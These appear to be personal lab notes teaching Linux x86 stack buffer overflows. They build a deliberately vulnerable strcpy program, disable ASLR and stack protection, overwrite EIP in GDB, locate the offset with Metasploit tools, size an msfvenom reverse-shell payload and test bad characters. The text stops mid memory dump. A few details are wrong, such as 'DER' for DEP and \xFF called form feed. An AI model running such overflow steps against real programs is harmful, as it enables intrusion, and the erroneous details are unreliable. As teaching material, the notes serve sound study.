





Linux Buffer Overflows#
Von-Neumann architecture:#
Primary memory - CPU cache & RAM
Secondary memory - Drives, CD-ROMS, Floppys and stuff
CU - Control Unit - responsible for io with ram and peripheral devices, interrupt control & monitoring of the entire system
ALU - Arythmetic and Logic Unit - responsible for the actual calculations ??
IR - Instruction Register - the CU contains the IR - this is the list of processor instructions
IAR - Instruction Address Register
ISA - Instruction Set Architecture - instruction set corresponding to a given proc architecture - e.g. arm x86 and so on ...
Instruction Set Architectures types:#
CISC - Complex Instruction Set Computing
RISC - Reduced Instruction Set Computing
VLIW - Very Long Instruction Word
EPIC - Explicitly Parallel Instruction Computing
Instruction Cycle:#
1. FETCH The next address is read from IAR. It is then loaded from the Cache or RAM into the Instruction Register (IR).
2. DECODE The instruction decoder converts the instructions and starts the necessary circuits to execute the instruction.
3. FETCH OPERANDS If further data have to be loaded for execution, these are loaded from the cache or RAM into the working registers.
4. EXECUTE The instruction is executed.
5. UPDATE INSTRUCTION POINTER If no jump at EXECUTE phase, the IAR is increased by the length of the instruction and points to next machine instruction.
Binary formats;#
ELF - Executable & Linking Format - (Nix)
PE - Portable Executable Format - (Windows)
Memory structure:#
stack - grows down (like stalactites) - LIFO - last in first out - return address, parameters, frame pointers
heap - grows up (like stalagmites) - dynamically allocated program memory
.bss - statically allocated variables represented exclusively by 0 bits
.data - global and static variables that are explicitly initialized by the program.
.text - the actual assembler instructions of the program. RO
Modern memory protections:#
ASLR - Address Space Layout Randomization
DER - Data Execution Prevention - marks some addresses as non exec
Vulnerable C Functions#
strcpy
gets
sprintf
scanf
strcat
Intel flavor Anatomy#
0x000011e2 <+0>: lea ecx,[esp+0x4]
---------- ---- --- -------------
1 2 3 4
Memory address
Address jumps in memory (in bytes)
Assembler instructions
Operation Suffixes
Data Registers#
|32-bit |64-bit |Description|
|--------|-------|-----------|
|EAX |RAX |Accumulator is used in input/output and for arithmetic operations|
|EBX |RBX |Base is used in indexed addressing|
|ECX |RCX |Counter is used to rotate instructions and count loops|
|EDX |RDX |Data is used for I/O and in arithmetic operations for multiply and divide operations involving large values|
Pointer Registers#
|32-bit |64-bit |Description|
|--------|-------|-----------|
|EIP |RIP |Instruction Pointer points to the offset address of the next instruction to be executed|
|EBP |RBP |Stack Base Pointer or Frame Pointer points to the begining of the stack (the base of the stalactite)|
|ESP |RSP |Stack Pointer points to the end of the stack (the tip of the stalactite)|
Index Registers#
|32-bit |64-bit |Description|
|--------|-------|-----------|
|ESI |RSI |Source Index is used as a pointer from a source for string operations|
|EDI |RDI |Destination is used as a pointer to a destination for string operations|
Make a vulnerable program example#
writing a small c program, with vulnerable function call strcpy
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bowfunc(char *string) {
char buffer[1024];
strcpy(buffer, string);
return 1;
}
int main(int argc, char *argv[]) {
bowfunc(argv[1]);
printf("Done.\n");
return 1;
}
Disable ASLR & Compile the program
echo 0 > /proc/sys/kernel/randomize_va_space # Was 2
sudo apt install gcc-multilib
gcc bow.c -o bow32 -f no-stack-protector -z execstack -m32
file bow32 | tr "," "\n"
inspect with GDB
gdb -q bow32
disassemble main
set disasembly-flavor intel
disassemble main
echo 'set disassembly-flavor intel' > ~/.gdbinit
Stack frames#
if we open our bow32 program with gdb, and disasemble the bowfunc function
gdb -q bow32
(gdb) disas bowfunc
The Prologue
It saves the previous position in the stack so that it can be recovered after the function completes.
then it creates a new stack frame an makes some space for the new operations and variables to be processed
0x000011a9 <+0>: push ebp ; stores the previous EBP
0x000011aa <+1>: mov ebp,esp ; creates a new stack frame
0x000011ac <+3>: push ebx
0x000011ad <+4>: sub esp,0x404 ; moves esp to the top
The Epilogue
for getting out of the stack from the oposite is done.
the ESP is replaced by the current EBP, and its value is reset to what it was before the prologue.
0x000011dc <+51>: leave
0x000011dd <+52>: ret
Taking control of the EIP#
If we can take control of the instruction pointer, we can tell it where to jump, and point it to where our shellcode starts.
We can use python to give 1200 U char as input, which causes a segmentation fault.
gdb -q bow32
Reading symbols from bow32...
(No debugging symbols found in bow32)
(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/blnkn/c/bow32 $(python -c "print '\x55' * 1200")
Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
But we can see that the EIP has been overwritten with U’s (0x55), this is why we’re seeing a segfault.
Because the EIP looks for an instruction at the address 0x55555555, and that is not a thing.
(gdb) info registers
eax 0x1 1
ecx 0xffffd720 -10464
edx 0xffffd0e0 -12064
ebx 0x55555555 1431655765
esp 0xffffd040 0xffffd040
ebp 0x55555555 0x55555555
esi 0xf7fa9000 -134574080 ; EBP overwritten
edi 0xf7fa9000 -134574080
eip 0x55555555 0x55555555 ; EIP overwritten
eflags 0x10286 [ PF SF IF RF ]
cs 0x23 35
ss 0x2b 43
ds 0x2b 43
es 0x2b 43
fs 0x0 0
gs 0x63 99
(gdb)
This is what happened:

So this means we now need to determine the offset of the EIP from where we are, once we know that, we ccan give the exact ammount of padding and end with the 4bytes representing the address we want to point the instruction pointer at next.
generate some input the pattern_create.rb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
and feed that to our program input
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
now we can see what section of that patern is reflected in the EIP
(gdb) info registers eip
eip 0x69423569 0x69423569

so we can use pattern_offset.rb to calculate the offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
now we know exactly how much padding we need to give to be able to write a new address in the EIP:
and we can double check that it works with some basic python, note that we’re using python2, simply because it’s easyer to print raw bytes.
gdb -q bow32
Reading symbols from bow32...
(No debugging symbols found in bow32)
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")
Starting program: /home/blnkn/c/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

Determing the length we need for our shellcode#
Generate shellcode with msfvenom, just to get hte payload size
msfvenom \
-p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=1337 \
--platform linux \
--arch x86 \
--format c
We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.
Often it can be useful to insert some no operation instruction (NOPS) before our shellcode begins so that it can be executed cleanly
In summary:
We need a total of 1040 bytes to get to the EIP.
Here, we can use an additional 100 bytes of NOPs
150 bytes for our shellcode.

Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4'
(gdb) run $(python -c "print '\x55' * (1036 - 100 - 150) + '\x90' * 100 + '\x44' * 150 + '\x66' * 4")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/blnkn/c/bow32 $(python -c "print '\x55' * (1036 - 100 - 150) + '\x90' * 100 + '\x44' * 150 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

Identifying bad characters#
usual culprits
\x00 - Null Byte
\x0A - Line Feed
\x0D - Carriage Return
\x20 - Space
\xFF - Form Feed
we’re gonna be using a list of test characters
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
printf $CHARS|sed 's/\\x//g'|xxd
00000000: 0001 0203 0405 0607 0809 0a0b 0c0d 0e0f ................
00000010: 1011 1213 1415 1617 1819 1a1b 1c1d 1e1f ................
00000020: 2021 2223 2425 2627 2829 2a2b 2c2d 2e2f !"#$%&'()*+,-./
00000030: 3031 3233 3435 3637 3839 3a3b 3c3d 3e3f 0123456789:;<=>?
00000040: 4041 4243 4445 4647 4849 4a4b 4c4d 4e4f @ABCDEFGHIJKLMNO
00000050: 5051 5253 5455 5657 5859 5a5b 5c5d 5e5f PQRSTUVWXYZ[\]^_
00000060: 6061 6263 6465 6667 6869 6a6b 6c6d 6e6f `abcdefghijklmno
00000070: 7071 7273 7475 7677 7879 7a7b 7c7d 7e7f pqrstuvwxyz{|}~.
00000080: 8081 8283 8485 8687 8889 8a8b 8c8d 8e8f ................
00000090: 9091 9293 9495 9697 9899 9a9b 9c9d 9e9f ................
000000a0: a0a1 a2a3 a4a5 a6a7 a8a9 aaab acad aeaf ................
000000b0: b0b1 b2b3 b4b5 b6b7 b8b9 babb bcbd bebf ................
000000c0: c0c1 c2c3 c4c5 c6c7 c8c9 cacb cccd cecf ................
000000d0: d0d1 d2d3 d4d5 d6d7 d8d9 dadb dcdd dedf ................
000000e0: e0e1 e2e3 e4e5 e6e7 e8e9 eaeb eced eeef ................
000000f0: f0f1 f2f3 f4f5 f6f7 f8f9 fafb fcfd feff ................
printf $CHARS|sed 's/\\x//g'|wc -c
256
set a breakpoint to inspect the state of the memory as we’re calling bowfunc
(gdb) break bowfunc
Breakpoint 1 at 0x565561ad
and send our characters
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')
Starting program: /home/blnkn/c/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: line 1: warning: command substitution: ignored null byte in input
Breakpoint 1, 0x565561ad in bowfunc ()
Lets examine the stack from the ESP, or stack pointer, or tip of the stalactite, up
(gdb) x/2000xb $esp+500
0xffffd268: 0x02 0x00 0x00 0x00 0x1f 0x00 0x00 0x00
0xffffd270: 0xe4 0xdf 0xff 0xff 0x0f 0x00 0x00 0x00
0xffffd278: 0x9b 0xd2 0xff 0xff 0x00 0x00 0x00 0x00
0xffffd280: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd288: 0x00 0x00 0x00 0x28 0x76 0x90 0xcc 0x65
0xffffd290: 0x65 0x72 0x06 0xe7 0xf0 0x78 0xf6 0x80
0xffffd298: 0x99 0xdb 0xc6 0x69 0x36 0x38 0x36 0x00
0xffffd2a0: 0x2f 0x68 0x6f 0x6d 0x65 0x2f 0x62 0x6c
0xffffd2a8: 0x6e 0x6b 0x6e 0x2f 0x63 0x2f 0x62 0x6f
0xffffd2b0: 0x77 0x33 0x32 0x00 0x55 0x55 0x55 0x55 ; beginning of
0xffffd2b8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55 ; our buffer section
0xffffd2c0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2c8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2d0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2d8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2e0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2e8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2f0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2f8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd300: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd308: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd310: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd318: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd320: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd328: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd330: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd338: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd340: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd348: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd350: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd358: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd360: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd368: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd370: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd378: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd380: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
--Type <RET> for more, q to quit, c to continue without paging--
0xffffd388: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd390: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd398: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3a0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3a8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3b0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3b8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3c0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3c8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3d0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3d8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3e0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3e8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3f0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd3f8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd400: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd408: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd410: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd418: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd420: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd428: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd430: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd438: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd440: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd448: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd450: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd458: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd460: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd468: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd470: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd478: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd480: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd488: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd490: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd498: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4a0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
--Type <RET> for more, q to quit, c to continue without paging--
0xffffd4a8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4b0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4b8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4c0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4c8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4d0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4d8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4e0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4e8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4f0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd4f8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd500: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd508: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd510: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd518: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd520: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd528: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd530: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd538: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd540: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd548: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd550: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd558: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd560: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd568: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd570: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd578: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd580: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd588: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd590: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd598: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5a0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5a8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5b0: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5b8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5c0: 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 ; the start of
--Type <RET> for more, q to quit, c to continue without paging--
0xffffd5c8: 0x00 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 0x11 ; the chars
0xffffd5d0: 0x12 0x13 0x14 0x15 0x16 0x17 0x18 0x19
0xffffd5d8: 0x1a 0x1b 0x1c 0x1d 0x1e 0x1f 0x00 0x21
0xffffd5e0: 0x22 0x23 0x24 0x25 0x26 0x27 0x28 0x29
0xffffd5e8: 0x2a 0x2b 0x2c 0x2d 0x2e 0x2f 0x30 0x31
0xffffd5f0: 0x32 0x33 0x34 0x35 0x36 0x37 0x38 0x39
0xffffd5f8: 0x3a 0x3b 0x3c 0x3d 0x3e 0x3f 0x40 0x41
0xffffd600: 0x42 0x43 0x44 0x45 0x46 0x47 0x48 0x49
0xffffd608: 0x4a 0x4b 0x4c 0x4d 0x4e 0x4f 0x50 0x51
0xffffd610: 0x52 0x53 0x54 0x55 0x56 0x57 0x58 0x59
0xffffd618: 0x5a 0x5b 0x5c 0x5d 0x5e 0x5f 0x60 0x61
0xffffd620: 0x62 0x63 0x64 0x65 0x66 0x67 0x68 0x69
0xffffd628: 0x6a 0x6b 0x6c 0x6d 0x6e 0x6f 0x70 0x71
0xffffd630: 0x72 0x73 0x74 0x75 0x76 0x77 0x78 0x79
0xffffd638: 0x7a 0x7b 0x7c 0x7d 0x7e 0x7f 0x80 0x81
0xffffd640: 0x82 0x83 0x84 0x85 0x86 0x87 0x88 0x89
0xffffd648: 0x8a 0x8b 0x8c 0x8d 0x8e 0x8f 0x90 0x91
0xffffd650: 0x92 0x93 0x94 0x95 0x96 0x97 0x98 0x99
0xffffd658: 0x9a 0x9b 0x9c 0x9d 0x9e 0x9f 0xa0 0xa1
